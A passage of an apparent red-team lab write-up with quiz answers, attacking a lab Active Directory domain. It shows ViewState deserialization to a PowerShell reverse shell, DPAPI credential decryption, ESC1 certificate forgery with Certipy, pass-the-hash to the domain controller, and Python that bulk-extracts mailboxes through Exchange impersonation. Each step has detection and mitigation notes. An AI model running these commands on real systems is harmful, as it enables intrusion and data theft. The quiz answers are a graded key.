    - Technique: Structured reporting aligning actions to MITRE techniques.
    - Why: Ensures traceability, supports remediation prioritization.
    - Detection: N/A (reporting phase).
    - Mitigation: Institutionalize post-incident analysis to strengthen controls.

19. Verification of Exchange Impersonation Rights (script.py)
    - Purpose: Test whether tel_ops1 has DELEGATE or IMPERSONATION rights on the Administrator mailbox.
    - Technique: Use exchangelib to check access levels (DELEGATE vs IMPERSONATION).
    - Why: Understand what level of access is available before attempting bulk data extraction.
    - Detection: EWS access attempts with impersonation headers; unusual mailbox access patterns.
    - Mitigation: Least privilege assignment; remove impersonation when not needed; implement mailbox access auditing; alert on unusual impersonation patterns.

20. Bulk Mailbox Data Extraction (script2.py)
    - Purpose: Programmatically extract emails from Administrator's mailbox (Inbox, Sent, Drafts folders) using impersonation.
    - Technique: Use exchangelib to access mailbox folders and extract email content.
    - Why: Harvest organizational secrets, operational procedures, and infrastructure credentials embedded in communications.
    - Detection: High-volume EWS folder enumeration; impersonation access to multiple mailboxes; unusual data extraction patterns.
    - Mitigation: Implement Data Loss Prevention (DLP) with keyword matching; restrict impersonation to required mailboxes; log all EWS access and impersonation; monitor mailbox access anomalies; educate users on draft sensitivity; implement conditional access restricting mailbox access.

21. Analysis of Extracted Mailbox Contents (results.txt)
    - Purpose: Parse and analyze the extracted email data to identify operational secrets.
    - Technique: Review and analyze email content for sensitive information (credentials, server names, etc.).
    - Why: Convert raw data into actionable intelligence for complete infrastructure compromise.
    - Detection: DLP keyword detection (Password:, SSH, credentials, etc.); unusual mailbox access patterns; bulk export of drafts; sensitive data classification violations; email content analysis with regex patterns.
    - Mitigation: Implement secrets vault (Azure Key Vault, HashiCorp Vault); automated credential rotation (especially "temporary" creds); DLP policies with strict keyword matching; secure credential distribution channels; user training on email security; redaction of credentials in historical emails; monitoring of drafts folder access; conditional access restricting mailbox access; implement credential scanning in email flows; deploy advanced threat protection for phishing/impersonation; regular security audits of email usage patterns.

What we gained from the config file :

**1. ViewState Generator :** CA0B0334, Unique Identifier present in the home page

**2. Algorithm :** SHA1, Present in the web.config file

**3. ValidationKey :**
56AB7132992003EE87F74AE4D9675D65EED8018D3528C0B8874905B51940DEAF6B85F1D922D19AB8F69781B2326A2F978A064708822FD8C54ED74CADF8592E17

### Step 5 Explanation: Malicious ViewState Crafting (ysonet/ysoserial)
**What:** Generate a signed ViewState payload containing a gadget chain (TextFormattingRunProperties) that executes arbitrary PowerShell code.

**Why:** 
- ViewState is a serialization mechanism in ASP.NET
- With the discovered ValidationKey and algorithm, we can sign our malicious payload
- When the app deserializes this signed ViewState, the gadget chain executes
- This achieves Remote Code Execution (RCE) without authentication

**How:**
1. Use ysonet tool (fork of ysoserial.net for ViewState generation)
2. Specify parameters:
   - `-p ViewState` : target payload type
   - `-g TextFormattingRunProperties` : gadget chain to use
   - `-c "powershell -e <base64_payload>"` : command to execute (reverse shell)
   - `--validationkey <extracted_key>` : HMAC signing key
   - `--validationalg SHA1` : signing algorithm
   - `--generator=CA0B0334` : ViewState generator ID

3. Command:
```bash
wine ysonet.exe -p ViewState -g TextFormattingRunProperties \
  -c "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAt..." \
  --validationkey "56AB7132992003EE87F74AE4D9675D65..." \
  --validationalg "SHA1" --generator=CA0B0334
```

4. Output: URL-encoded malicious ViewState string starting with `%2FwEy0xEAAQAA...`

**Why This Works:**
- TextFormattingRunProperties is a .NET gadget available in common assemblies
- ObjectDataProvider allows method invocation during deserialization
- When ASP.NET deserializes the signed payload, it trusts it (signature valid)
- Gadget chain unwinds → PowerShell command executed

**Security Issue:**
- Exposed ValidationKey allows signing of arbitrary payloads
- Insecure deserialization accepting untrusted objects
- No type restrictions on deserialized objects
- HMAC signature provides no protection against known-key attacks

**Detection:**
- Abnormally large or unusual __VIEWSTATE values
- Gadget chain patterns in binary ViewState
- Outbound PowerShell connections post-request
- ASP.NET deserialization errors in logs
- AMSI (Antimalware Scan Interface) blocks

**Mitigation:**
- Update to latest .NET framework (gadget chains patched)
- Enable ViewStateUserKey (per-user encryption)
- Implement strict type validation during deserialization
- Disable unsafe gadgets in config
- Input length limits on ViewState
- Host on .NET 6+ (ViewState removed)

---

### Step 6 Explanation: ViewState Injection & Code Execution
**What:** Inject the malicious ViewState payload into the application and trigger deserialization.

**Why:** Cause the server to deserialize our payload, triggering the gadget chain and executing our PowerShell command.

**How:**
1. Identify the form submission endpoint (typically POST to same page or action handler)
2. Craft HTTP POST request with:
   - `__VIEWSTATE=<malicious_payload>`
   - Other required form fields (if any)
3. Submit to the vulnerable application
4. Server receives ViewState, validates signature (succeeds—we signed it), deserializes
5. Gadget chain executes during deserialization
6. PowerShell payload executes on server

**What Happens Next:**
- PowerShell reverse shell initiated to attacker IP (10.10.40.85:4444)
- Interactive command shell established
- Attacker gains code execution as IIS App Pool user ("root")
- Local system commands available (whoami, hostname, dir, etc.)

**Verification (Step 6):**
- Screenshot shows PowerShell session on Web-Srv machine
- User context: `IIS APPPOOL\root`
- Hostname: `Web-Srv`
- Proof of execution: ability to run arbitrary commands

**Why This Matters:**
- Unauthenticated Remote Code Execution (RCE)
- Foothold in the network
- Platform for privilege escalation and lateral movement

**Detection:**
- HTTP requests with abnormal __VIEWSTATE size/pattern
- ASP.NET deserialization exceptions (w3wp crash or error logs)
- Outbound PowerShell connections from w3wp process
- Process creation events (cmd.exe, powershell.exe spawned by w3wp)
- Network connections from IIS worker process to external IPs

**Mitigation:**
- Patch ASP.NET framework
- Use Web Application Firewall (WAF) to detect large ViewState payloads
- Enable PowerShell script block logging
- Deploy EDR solution to detect process anomalies
- Restrict outbound connections from IIS pool
- Monitor and alert on unexpected child processes

---

**Question 3:** What is the machine name of the server where IIS is running?
**Answer:** Web-Srv

---

### Step 7 Explanation: Gathering System Information
**What:** Execute commands in the PowerShell shell to identify the system hostname and context.

**Why:** Verify successful foothold and identify which system we've compromised for reporting and next steps.

**How:**
- Command: `hostname` → returns `Web-Srv`
- Command: `whoami` → returns `IIS APPPOOL\root`
- Command: `ipconfig /all` → gathers network configuration
- Command: `systeminfo` → OS version, patches, installed software

**Why This Matters:**
- Confirms we're on the correct target system
- Identifies application pool identity ("root" - unusual naming, suggests weak security practices)
- Gathers information for privilege escalation and lateral movement

**Security Issue:** Application pool running under a user-like account instead of AppPoolIdentity; non-standard naming suggests manual configuration without security hardening.

**Detection:** Process execution patterns from w3wp (hostname.exe, systeminfo.exe, ipconfig.exe spawned by IIS worker).

**Mitigation:** Use default AppPoolIdentity; prevent execution of system discovery commands; implement process whitelisting.

---

**Question 4:** What is the name of the IIS Application Pool the shell is running under?
**Answer:** root

---

### Step 8 Explanation: Registry Enumeration (HKLM\SOFTWARE\TelecomApp)
**What:** Query the Windows registry for the HKLM\SOFTWARE\TelecomApp key containing application credentials.

**Why:** Discover service account credentials stored locally for application operations (e.g., database connectivity, API authentication).

**How:**
```powershell
reg query 'HKEY_LOCAL_MACHINE\SOFTWARE\TelecomApp'
```

**Output:**
```
UserName    REG_SZ    tel_admin01@telecore.ad
EncryptedPassword    REG_SZ    AQAAANCMnd8BFdERjHoAwE/Cl+sBAAAAOUxfpmwAV0WYASgF...
```

**Why This Matters:**
- Discover additional user accounts with elevated privileges
- Encrypted password suggests developers attempted security (but failed)
- DPAPI encryption at machine scope is reversible on the local machine

**Security Issue:**
- Credentials stored in registry instead of secure vault
- DPAPI machine scope encryption is reversible by any process on the machine
- No additional entropy or key rotation

**Detection:** Registry queries targeting HKLM\SOFTWARE paths; access to application-specific keys; queries from IIS worker process.

**Mitigation:** Remove registry-stored credentials; use Azure Managed Identity / Key Vault; implement registry access logging and alerts.

---

### Step 9 Explanation: DPAPI Decryption of Stored Password
**What:** Decrypt the DPAPI-encrypted password stored in the registry to obtain plaintext credentials.

**Why:** Convert encrypted secret to usable credentials for lateral movement and privilege escalation.

**How:**
```powershell
Add-Type -AssemblyName System.Security

# Extract encrypted string from registry
$encryptedString = (reg query 'HKLM\SOFTWARE\TelecomApp' /v EncryptedPassword | findstr 'REG_SZ')
$encryptedString = $encryptedString.Trim() -replace '^.*REG_SZ\s+', ''

# Decode Base64
$encryptedBytes = [Convert]::FromBase64String($encryptedString)

# Decrypt using DPAPI
$decryptedBytes = [System.Security.Cryptography.ProtectedData]::Unprotect(
    $encryptedBytes, 
    $null, 
    [System.Security.Cryptography.DataProtectionScope]::LocalMachine
)

# Convert to plaintext
$plaintextPassword = [System.Text.Encoding]::UTF8.GetString($decryptedBytes)
Write-Host $plaintextPassword
# Output: T3l@Com#1
```

**Why This Works:**
- DPAPI LocalMachine scope means any process on the machine can decrypt
- No user-specific entropy added
- The machine key is accessible to SYSTEM and administrators
- Since we're running as IIS worker (elevated), decryption succeeds

**Credential Obtained:** `tel_admin01@telecore.ad : T3l@Com#1`

**Why This Matters:**
- Domain credentials for a privileged user
- Can be used for lateral movement (AD enumeration, Kerberos attacks)
- Likely has elevated permissions in AD (admin user naming convention)

**Security Issue:**
- DPAPI machine scope is not suitable for multi-user systems
- No additional protection beyond machine key
- Developers misunderstood DPAPI security model

**Detection:** 
- CryptUnprotectData API calls from unexpected processes
- Registry key access followed by DPAPI operations
- Unusual cryptographic API usage from application pool

**Mitigation:**
- Use user-scope DPAPI with additional entropy
- Implement Azure Key Vault or AWS Secrets Manager
- Never store credentials in registry
- Use managed service identities (no credential storage needed)

---

**Question 5:** What are the decoded credentials of "tel_admin01" domain user?
**Answer:** T3l@Com#1

---

**Question 6:** Registry location where the TelecomApp is present?
**Answer:** HKEY_LOCAL_MACHINE\SOFTWARE\TelecomApp

---

### Step 10 Explanation: AD CS Enumeration (Certipy find)
**What:** Use Certipy to enumerate Active Directory Certificate Services, discover vulnerable templates and configuration.

**Why:** Identify misconfigurations (ESC1, ESC4, ESC8) that enable certificate-based privilege escalation to domain admin.

**How:**
```bash
certipy-ad find -u tel_admin01 -hashes :<ntlm_hash> -dc-ip 10.5.2.2 -stdout -vulnerable
```

**Output Analysis:**

**Certificate Authority Found:**
- `telecore-PKI-SRV-CA` running on `PKI-Srv.telecore.ad`
- Certificate valid until 2125 (100+ years)
- **ESC8 Vulnerability:** Web Enrollment enabled over HTTP (not HTTPS)
  - Implications: Man-in-the-middle attacks, no channel binding
  - Impact: Attacker can intercept and modify certificate requests

**Vulnerable Templates Discovered:**
1. **Badges Template - ESC1:**
   - `Enrollee Supplies Subject`: True (allows arbitrary subject)
   - `Certificate Name Flag`: EnrolleeSuppliesSubject (attacker controls CN)
   - `Client Authentication`: True (EKU for authentication)
   - `Authorized Signatures Required`: 0 (no approval needed)
   - **Vulnerability:** Can request cert for Administrator without actual access

2. **Tel_User Template - ESC1:**
   - Same ESC1 vulnerability as Badges
   - Enrollment open to Domain Users and tel_engineer01
   - Allows forging Administrator certificate

3. **Copy of Copy of User Template - ESC4:**
   - `tel_engineer01` has Full Control ACL
   - Can modify template permissions and settings
   - **Vulnerability:** Modify template to allow Client Authentication
   - Can then enroll and forge certificates

**Why This Is Critical:**
- ESC1 + ESC4 + ESC8 = path to domain compromise without password cracking
- Can forge certificate for Administrator
- No approval workflow blocking escalation

**Security Issues:**
- Templates allow subject override without restriction
- Wide enrollment permissions
- Client Authentication on overly permissive templates
- Lack of manager approval
- HTTP enrollment enabled

**Detection:**
- Unusual certificate requests from standard users
- Requests containing high-privilege UPNs/SIDs
- Template modification events
- Certificate enrollment spikes
- PKI auditing logs

**Mitigation:**
- Disable HTTP enrollment (enforce HTTPS + EPA)
- Remove EnrolleeSuppliesSubject flag
- Restrict enrollment permissions to specific groups
- Require manager approval for sensitive templates
- Remove Client Authentication where not needed
- Implement application-specific templates
- Regular AD CS configuration audits

---

### Step 11 Explanation: Administrator SID Discovery (rpcclient)
**What:** Look up the Administrator user's SID using RPC.

**Why:** Obtain the SID needed for the Subject Alternative Name (SAN) field in malicious certificate request.

**How:**
```bash
rpcclient --user 'telecore.ad/tel_admin01' --password 'T3l@Com#1' 10.5.2.2 -c "lookupnames administrator"
```

**Output:**
```
administrator S-1-5-21-1588247407-410625039-1511794522-500 (User: 1)
```

**Extracted SID:** `S-1-5-21-1588247407-410625039-1511794522-500`

**Why This Matters:**
- SID is unique identifier for user in domain
- Certificate with correct SID in SAN is recognized as Administrator's cert
- Enables PKINIT (smartcard logon) as Administrator
- RID 500 confirms this is the Administrator account (well-known RID)

**Security Issue:** RPC name-to-SID lookup allows low-privilege users to enumerate high-privilege accounts.

**Detection:**
- Repeated lookupnames calls from standard user account
- Correlation between SID lookups and certificate enrollment
- RPC enumeration patterns

**Mitigation:**
- Restrict RPC access to trusted networks
- Implement RPC auditing
- Monitor for enumeration patterns
- Use firewall rules to limit RPC exposure

---

### Step 12 Explanation: Malicious Certificate Request #1 (Tel_User Template)
**What:** Request a certificate from the vulnerable Tel_User template, specifying Administrator's UPN and SID.

**Why:** Obtain a valid, signed certificate for Administrator account.

**How:**
```bash
certipy-ad req -u 'tel_admin01@telecore.ad' -p 'T3l@Com#1' \
  -target 10.5.2.8 \
  -ca 'telecore-PKI-SRV-CA' \
  -template 'Tel_User' \
  -upn 'administrator@telecore.ad' \
  -sid 'S-1-5-21-1588247407-410625039-1511794522-500'
```

**Process:**
1. tel_admin01 authenticates via Kerberos
2. Request submitted to CA at 10.5.2.8 (PKI server) via RPC
3. Request ID: 25
4. Certificate issued with:
   - Subject: Administrator
   - UPN (SAN): administrator@telecore.ad
   - SID (SAN): S-1-5-21-1588247407-410625039-1511794522-500
   - Validity: 1 year
   - EKU: Client Authentication (PKINIT compatible)

**Output:** `administrator.pfx` (certificate + private key)

**Why This Works:**
- Template allows tel_admin01 to enroll
- Template doesn't validate subject restrictions
- No manager approval required
- CA issues certificate with supplied subject/SID

**Why This Is Dangerous:**
- Certificate now identifies as Administrator to Kerberos
- Can be used for smartcard logon (PKINIT)
- Effectively "becomes" Administrator without password
- Certificate valid for 1 year

**Detection:**
- Certificate enrollment from non-admin user
- Request for high-privilege UPN
- Request containing privileged SID
- Unusual certificate issuance patterns

**Mitigation:**
- Manager approval requirement
- Enrollment restrictions by group
- Audit high-privilege certificate issuance
- Monitor certificate store for unexpected certs
- Implement PKI monitoring/alerts

---

### Step 13 Explanation: Malicious Certificate Request #2 (Badges Template)
**What:** Request another certificate from the Badges template (same attack, different template).

**Why:** Demonstrate multiple paths to privilege escalation; ensure backup method for persistence.

**How:**
```bash
certipy-ad req -u 'tel_admin01@telecore.ad' -p 'T3l@Com#1' \
  -target 10.5.2.8 \
  -ca 'telecore-PKI-SRV-CA' \
  -template 'Badges' \
  -upn 'administrator@telecore.ad' \
  -sid 'S-1-5-21-1588247407-410625039-1511794522-500'
```

**Output:** Another valid `administrator.pfx` (request ID: 23)

**Why This Matters:**
- Redundancy: Multiple valid certs for Administrator
- Demonstrates systemic vulnerability (not isolated to one template)
- Provides backup if one cert is revoked
- Shows pervasiveness of ESC1 configuration

**Detection:** Multiple certificate requests with same high-privilege principal.

**Mitigation:** Strict approval policies; revocation monitoring; certificate consumption tracking.

---

### Step 14 Explanation: PKINIT Authentication & Hash Extraction
**What:** Use the forged administrator.pfx certificate to perform Kerberos authentication and extract NT hash.

**Why:** Convert certificate to credentials (TGT + NT hash) for persistent domain admin access.

**How:**
```bash
certipy-ad auth -pfx administrator.pfx -dc-ip 10.5.2.2
```

**Process:**
1. Certipy reads the PFX (certificate + private key)
2. Performs PKINIT (Kerberos with public key)
3. KDC validates certificate signature (valid CA, correct identity)
4. KDC issues TGT for Administrator
5. Extract NT hash from credential cache

**Output:**
```
[*] Certificate identities:
[*]     SAN UPN: 'administrator@telecore.ad'
[*]     SAN URL SID: 'S-1-5-21-1588247407-410625039-1511794522-500'
[*]     Security Extension SID: 'S-1-5-21-1588247407-410625039-1511794522-500'
[*] Using principal: 'administrator@telecore.ad'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@telecore.ad': aad3b435b51404eeaad3b435b51404ee:bfb19bca32a6aab8e0b9a836da860e32
```

**Credentials Obtained:**
- **NT Hash:** `bfb19bca32a6aab8e0b9a836da860e32`
- **LM Hash (null):** `aad3b435b51404eeaad3b435b51404ee`
- **TGT:** Kerberos ticket (cached in CCACHE file)

**Why This Is Critical:**
- Full domain administrator access
- Can access any resource in the domain
- Can modify domain configuration
- Can create user accounts
- Can reset passwords
- Enables lateral movement to any system

**Security Issue:**
- KDC trusted the certificate (signed by legitimate CA)
- No additional validation of certificate source
- No monitoring for suspicious PKINIT attempts
- Smartcard logon not restricted to physical devices

**Detection:**
- Unexpected PKINIT events in Kerberos logs
- TGT requests for privileged accounts from unusual sources
- Certificate-based logon outside normal patterns
- Monitoring for 4768/4769 events with certificate preauth

**Mitigation:**
- Restrict smartcard logon to physical devices
- Implement certificate pinning
- Monitor PKI-based authentication attempts
- Enforce additional authentication factors for high-privilege accounts
- Regular certificate audits
- Disable PKINIT for administrative accounts if smartcards not in use

---

```bash
┌──(.venv)─(kali㉿kali)-[~/learning/AD-RTS/lab_2]
└─$ smbclient \\\\10.5.2.2\\C$ -U 'administrator%bfb19bca32a6aab8e0b9a836da860e32' --pw-nt-hash
Try "help" to get a list of possible commands.
smb: \> 
```

### Step 15 Explanation: SMB Access to Domain Controller (C$ Share)
**What:** Use the extracted NT hash to authenticate to the Domain Controller via SMB and access the C$ (administrative share).

**Why:** Gain file system access to the DC for enumeration, lateral movement, and credential harvesting.

**How:**
```bash
smbclient \\10.5.2.2\C$ -U 'administrator' --pw-nt-hash -H 'bfb19bca32a6aab8e0b9a836da860e32'
```

**Process:**
1. SMB NTLMv2 authentication using NT hash (pass-the-hash technique)
2. No plaintext password required; hash alone is sufficient
3. Authenticates as Administrator
4. Connects to C$ (administrative share pointing to C: drive root)
5. Full filesystem read access granted

**Why This Works:**
- NT hash is the secret used in SMB authentication
- Attacker now acts as Administrator
- No MFA on admin accounts
- No additional session restrictions

**Access Gained:**
- Read entire filesystem
- Access System32, Users, configuration files, logs
- Prepare for scheduled task enumeration

**Security Issue:** NT hash can be used directly for authentication without password; no account lockout on hash brute-force; administrative accounts lack MFA.

**Detection:**
- SMB logon events for Administrator from unusual source
- Administrative share access (C$, ADMIN$, IPC$)
- Network logon (type 3) for high-privilege accounts
- Lateral movement patterns

**Mitigation:**
- Enforce MFA on administrative accounts
- Restrict admin shares to trusted networks
- Implement conditional access policies
- Monitor and alert on administrative logons
- Use Kerberos signing (disable NTLM when possible)
- Dedicate bastion hosts for admin access

---

```bash
smb: \Windows\System32\Tasks\> ls
  .                                   D        0  Sat Oct  4 08:54:52 2025
  ..                                  D        0  Sat Oct  4 08:43:46 2025
  CreateExplorerShellUnelevatedTask      A     3658  Sat Oct  4 08:54:52 2025
  Exchange MailBox Programmatic Access      A     3222  Sun Sep 14 07:24:47 2025
  Microsoft                           D        0  Fri Jul 25 14:16:00 2025
  MicrosoftEdgeUpdateTaskMachineCore      A     3410  Sat Sep 13 17:25:35 2025
  MicrosoftEdgeUpdateTaskMachineUA      A     3536  Sat Sep 13 17:25:35 2025
```

### Step 16 Explanation: Scheduled Tasks Enumeration
**What:** Browse the Windows\System32\Tasks directory to discover scheduled tasks.

**Why:** Find automated scripts that may contain credentials or provide attack vectors.

**How:**
- Command: `ls` in SMB session at path `\Windows\System32\Tasks`
- Discover tasks including:
  - `CreateExplorerShellUnelevatedTask` (suspicious name)
  - `Exchange MailBox Programmatic Access` (HIGH PRIORITY—Exchange integration)
  - Default Microsoft tasks (EdgeUpdate, etc.)

**Key Finding:** "Exchange MailBox Programmatic Access" task created Sep 14, modified Oct 3.

**Why This Matters:**
- Indicates Exchange Server integration with custom automation
- Tasks run with SYSTEM or admin privileges
- Scripts may contain credentials or sensitive operations
- Suggests mailbox migration or backup processes

**Security Issue:** Scheduled tasks often hardcode credentials; automation scripts frequently contain secrets.

**Detection:** Scheduled task monitoring, audit trail for task creation/modification, script analysis.

**Mitigation:** Use managed identities for scheduled tasks; secrets vault for credential distribution; code review of automation scripts.

---

```bash
smb: \Windows\System32\Tasks\> get "Exchange MailBox Programmatic Access"
getting file \Windows\System32\Tasks\Exchange MailBox Programmatic Access of size 3222 as Exchange MailBox Programmatic Access (2.2 KiloBytes/sec) (average 2.2 KiloBytes/sec)
smb: \Windows\System32\Tasks\> 
```

### Step 17 Explanation: Extraction of Scheduled Task XML
**What:** Download the "Exchange MailBox Programmatic Access" task file from the DC.

**Why:** Discover what script/command the task executes and potentially find embedded credentials.

**How:**
- SMB command: `get "Exchange MailBox Programmatic Access"`
- File downloaded to attacker's machine
- Parsed as XML to reveal task configuration

**Output (XML excerpt):**
```xml
<Task version="1.2" xmlns="...">
  <RegistrationInfo>
    <Date>2025-09-14T04:21:39.103439</Date>
    <Author>TELECORE\Administrator</Author>
    <URI>\Exchange MailBox Programmatic Access</URI>
  </RegistrationInfo>
  <Triggers>
    <TimeTrigger>
      <StartBoundary>2025-09-14T04:12:50</StartBoundary>
      <Enabled>true</Enabled>
    </TimeTrigger>
  </Triggers>
  <Principals>
    <Principal id="Author">
      <RunLevel>LeastPrivilege</RunLevel>
      <UserId>Administrator</UserId>
      <LogonType>InteractiveToken</LogonType>
    </Principal>
  </Principals>
  <Actions Context="Author">
    <Exec>
      <Command>C:\Users\Administrator\Downloads\impersonate.ps1</Command>
    </Exec>
  </Actions>
</Task> 
```

**Key Findings:**
- Executes: `C:\Users\Administrator\Downloads\impersonate.ps1`
- Runs as: Administrator
- Scheduled: Daily at 04:12:50 UTC
- Created: Sep 14, 2025 (recent and active)

**Why This Matters:**
- Script filename "impersonate.ps1" suggests credential impersonation
- Path in Administrator's Downloads folder (non-standard location)
- Indicates active automation with sensitive operations
- Script likely contains credentials

**Security Issue:** Scripts stored in user profile Downloads folder; scheduled to run as Administrator; task name indicates sensitive operation.

**Detection:** Scheduled task auditing; monitoring of Downloads folder; script execution logs; sensitive operation auditing.

**Mitigation:** Store scripts in secure locations (protected system folder); use managed identities; remove Download folder usage; implement code signing.

---

### Step 18 Explanation: Download and Analysis of impersonate.ps1
**What:** Retrieve the PowerShell script executed by the scheduled task and analyze its contents.

**Why:** Extract plaintext service account credentials for Exchange Server access.

**How:**
```bash
smbclient> get C:\\Users\\Administrator\\Downloads\\impersonate.ps1
cat impersonate.ps1
```

**Script Analysis (PowerShell):**

```powershell
$MigrationConfig = @{
    SourceServer = "ex-srv.telecore.ad"
    ServiceAccount = "tel_ops1@telecore.ad"
    ServicePassword = "T3l@Net#2"  # ← CREDENTIAL HERE
    TargetMailbox = "administrator@telecore.ad"
    LogPath = "C:\Logs\Migration\"
}

# ... script attempts to connect to Exchange Server
# ... migrates mailbox content
# ... logs credentials to file: C:\Temp\migration_debug.log
```

**Credentials Extracted:**
- **Service Account:** `tel_ops1@telecore.ad`
- **Service Password:** `T3l@Net#2`
- **Target:** Exchange Server `ex-srv.telecore.ad`
- **Privilege:** ApplicationImpersonation (can access any mailbox)

**Why This Is Critical:**
- Service account with mailbox impersonation rights
- Can read any user's emails, drafts, sent items
- Often contains organizational secrets and credentials
- Password in plain text in script (terrible practice)

**Security Issues:**
- Plaintext credentials in script
- No access controls on script file
- Impersonation rights are excessive
- Logs contain credentials (C:\Temp\migration_debug.log)
- Script purpose unclear (why migration scheduled daily?)

**Detection:**
- Script content monitoring
- Plaintext credential detection in files
- Unusual logging of credentials
- Impersonation right monitoring
- Script modification events

**Mitigation:**
- Remove hardcoded credentials
- Use managed service accounts
- Implement least privilege (remove impersonation)
- Use RBAC for mailbox delegation
- Secure script repositories
- Code reviews and credential scanning

---

**Question 7:** What's the credential of "tel_ops1@telecore.ad" user discovered in the powershell script?
**Answer:** T3l@Net#2

---

**Question 8:** What is the "LogPath" present inside the same script?
**Answer:** C:\Logs\Migration\

---

### Step 19 Explanation: Verification of Exchange Impersonation Rights (script.py)
**What:** Test whether tel_ops1 has DELEGATE or IMPERSONATION rights on the Administrator mailbox.

**Why:** Understand what level of access is available before attempting bulk data extraction.

**How:**
```python
def check_access(user, pwd, server, target):
    creds = Credentials(username=user, password=pwd)
    config = Configuration(server=server, credentials=creds)

    # Check Delegate access
    try:
        acc = Account(primary_smtp_address=target, config=config,
                      autodiscover=False, access_type=DELEGATE)
        _ = acc.inbox.total_count
        print(f"[+] {user} has DELEGATE access on {target}")
    except Exception as e:
        print(f"[-] No Delegate access for {target}")

    # Check Impersonation access
    try:
        acc = Account(primary_smtp_address=target, config=config,
                      autodiscover=False, access_type=IMPERSONATION)
        _ = acc.inbox.total_count
        print(f"[+] {user} has IMPERSONATION rights on {target}")
    except Exception as e:
        print(f"[-] No Impersonation rights for {target}")

check_access("tel_ops1@telecore.ad", "T3l@Net#2",
             "ex-srv.telecore.ad", "administrator@telecore.ad")
```

**Execution & Output:**
```
[-] No Delegate access for administrator@telecore.ad
[+] tel_ops1@telecore.ad has IMPERSONATION rights on administrator@telecore.ad
```

**Findings:**
- **DELEGATE:** NOT available (requires explicit permission and target mailbox delegation)
- **IMPERSONATION:** AVAILABLE (ApplicationImpersonation right on Administrator mailbox)

**Why This Matters:**
- IMPERSONATION is powerful: can read all mailbox content without target user consent
- No activity logging for impersonation in some configurations
- Ideal for data exfiltration
- Suggests tel_ops1 was granted excessive privileges for migration tasks

**Security Issue:** Impersonation rights granted without apparent business need; no activity monitoring; excessive privilege for routine operations.

**Detection:** EWS impersonation attempts; monitor ApplicationImpersonation role assignments; log all mailbox access.

**Mitigation:** Least privilege assignment; remove impersonation when not needed; implement mailbox access auditing; alert on unusual impersonation patterns.

---

**Question 9:** The rights which are granted to "tel_ops1" user over the administrator mailbox?
**Answer:** impersonation

---

### Step 20 Explanation: Bulk Mailbox Data Extraction (script2.py)
**What:** Programmatically extract emails from Administrator's mailbox (Inbox, Sent, Drafts folders) using impersonation.

**Why:** Harvest organizational secrets, operational procedures, and infrastructure credentials embedded in communications.

**How:**
```python
def extract_mailbox_items(user, password, exchange_server, target_mailboxes,
                          output_file="results.txt"):
    creds = Credentials(username=user, password=password)
    config = Configuration(server=exchange_server, credentials=creds)

    for target in target_mailboxes:
        target_account = Account(
            primary_smtp_address=target,
            config=config,
            autodiscover=False,
            access_type=IMPERSONATION
        )
        folder_map = {
            "Inbox": target_account.inbox,
            "Sent": target_account.sent,
            "Drafts": target_account.drafts
        }
        for name, folder in folder_map.items():
            # Fetch latest 20 items per folder
            for item in folder.all().order_by('-datetime_created')[:20]:
                body = (item.text_body or "").replace("\n", " ").strip()
                snippet = body[:200] + ("..." if len(body) > 200 else "")
                results.append(f"[{target} - {name}]\n{item.subject}\n{snippet}\n")
    
    with open(output_file, "w", encoding="utf-8") as f:
        f.write("\n".join(results))

extract_mailbox_items("tel_ops1@telecore.ad", "T3l@Net#2",
                      "ex-srv.telecore.ad", 
                      ["administrator@telecore.ad"],
                      "results.txt")
```

**Execution:**
```
[*] Checking mailbox access for: ['administrator@telecore.ad']
[+] Connected to Exchange

[*] Extracting items from: administrator@telecore.ad
 [+] Reading Inbox...
 [+] Reading Sent...
 [+] Reading Drafts...

[+] Extraction complete. Results saved to: results.txt
```

**Data Extracted:** 20 latest items from each folder (60 total emails/drafts)

**Why This Matters:**
- Drafts contain sensitive information NOT YET SENT (plans, credentials, unreviewed communications)
- Sent folder shows what Administrator communicated externally
- Inbox shows received communications and approvals
- Provides complete picture of operations

**Security Issues:**
- Impersonation not restricted by folder
- No content classification/DLP preventing extraction
- Drafts are not formally sent but contain sensitive data
- Historical data accessible (20 most recent items per folder)

**Detection:**
- High-volume EWS folder enumeration
- Impersonation access to multiple mailboxes
- Unusual data extraction patterns
- Monitoring of Drafts folder access

**Mitigation:**
- Implement Data Loss Prevention (DLP) with keyword matching
- Restrict impersonation to required mailboxes
- Log all EWS access and impersonation
- Monitor mailbox access anomalies
- Educate users on draft sensitivity
- Implement conditional access for Exchange access

---

### Step 21 Explanation: Analysis of Extracted Mailbox Contents (results.txt)
**What:** Parse and analyze the extracted email data to identify operational secrets.

**Why:** Convert raw data into actionable intelligence for complete infrastructure compromise.

**How:**
- Review extracted email bodies and subjects for credential markers
- Parse for patterns: "Password:", "SSH", "Credentials:", "Username:", server names with credentials
- Extract actionable intelligence for lateral movement

**Critical Findings from Administrator's Mailbox:**

**1. VPN Credentials (Drafts - Field Team Deployment):**
```
VPN: vpn.telecore.ad
Username: field_engineer_vpn
Password: F1eldVPN@ccess$2024
PSK: TelecomSecurePSK#2024
Note: "Distribute to team leads only"
```
- **Impact:** Remote access to internal network
- **Scope:** All field engineers can access VPN
- **Risk:** Compromises mobile workforce access
- **Use:** Can connect to internal network and pivot to other systems

**2. PROD Database Credentials (Drafts - Billing System):**
```
Server: sqlprod-01.telecore.ad
Database: Billing_Prod
Username: billing_prod_user
Password: SqlB1lling@2024!
Note: "Database credentials for tonight's maintenance"
```
- **Impact:** Full database access for billing system
- **Data:** Customer financial records, payment information, PII
- **Risk:** Data breach, financial fraud, regulatory violations (PCI-DSS, GDPR)
- **Use:** Direct database access for exfiltration

**3. Core Router Admin Access (Drafts - Maintenance):**
```
Device: juniper-core-01.telecore.ad
Username: netadmin_jnpr
Password: Juniper$CorePass2024!
SSH Port: 22
Note: "Temporary credentials... Rotate after 48 hours"
```
- **Impact:** Network infrastructure control
- **Scope:** Can modify routing, monitor traffic, cause DoS
- **Risk:** Network-wide disruption capability
- **Use:** Network reconnaissance, traffic interception, service disruption

**4. FTP Server Credentials (Sent - Marketing Campaign):**
```
Server: ftp.globalblast.*
Purpose: GlobalBlast marketing campaign
Note: "Upload all assets to this FTP server"
```
- **Impact:** Access to marketing/campaign infrastructure
- **Data:** Marketing materials, potentially sensitive campaigns
- **Risk:** Brand damage, competitive intelligence, campaign manipulation
